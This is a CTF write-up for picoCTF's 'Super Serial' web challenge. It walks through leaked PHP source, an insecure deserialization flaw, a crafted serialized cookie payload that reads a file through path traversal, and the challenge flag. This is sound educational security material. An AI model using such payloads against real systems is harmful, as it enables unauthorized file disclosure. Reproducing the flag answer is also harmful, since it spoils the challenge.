

# Super Serial

> Challenge: [Super Serial](https://play.picoctf.org/practice/challenge/180)

## Summary

**Information Leakage in Webserver Metafiles + Insecure Deserialization**
> Checking /robots.txt and gain some source file, analyzing source code and exploiting Insecure Deserialization

## Solution

Checking `/robots.txt`:

```
User-agent: *
Disallow: /admin.phps
```

Then we access to `/index.phps`, `/authentication.phps`, `/cookie.phps` and get these
sources: [index.php](index.php), [authentication.php](authentication.php), [cookie.php](cookie.php)


Focus on the end of `index.php`:
```php
class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	//...
}

```
This is the extended serial object of cookie: 
```
O:11:"permissions":2:{s:8:"username";s:4:"user";s:8:"password";s:4:"pass";}
```

And when deserializing the cookie, if it catches an exception, it will print the deserialized object in string.

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

```
In `authentication.php`, we have an interesting object will show content of file in string:
```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```
so I will use it to create a serialized object to put into the cookie:
```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
Check `index.php`:
```php
if ($perm_res->is_guest() || $perm_res->is_admin()) {
    setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
    header("Location: authentication.php");
    die();
}
```
We see that we will put a header `Cookie: login=<base64_encodeed_serialized_obj>` in request `GET /authentication.php`:
Payload: `Cookie: login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFn`



**Flag:**`picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_66832978}`